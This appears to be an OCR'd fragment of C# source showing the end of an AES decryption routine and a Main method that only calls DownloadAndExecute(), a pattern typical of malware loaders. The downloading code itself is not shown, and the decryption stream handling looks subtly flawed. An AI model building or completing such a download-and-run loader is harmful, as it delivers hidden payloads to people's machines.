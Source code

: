 ```csharp
            byte[] IV = Encoding.UTF8.GetBytes(AESIV);

            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = key;
                aesAlg.IV = IV;
                aesAlg.Padding = PaddingMode.None;

                ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

                using (MemoryStream memoryStream = new MemoryStream(ciphertext))
                {
                    using (CryptoStream cryptoStream = new CryptoStream(memoryStream, decryptor, CryptoStreamMode.Write))
                    {
                        cryptoStream.Write(ciphertext, 0, ciphertext.Length);
                        return memoryStream.ToArray();
                    }
                }
            }
        }

        public static void Main(String[] args)
        {
            DownloadAndExecute();
        }
    }
}
```
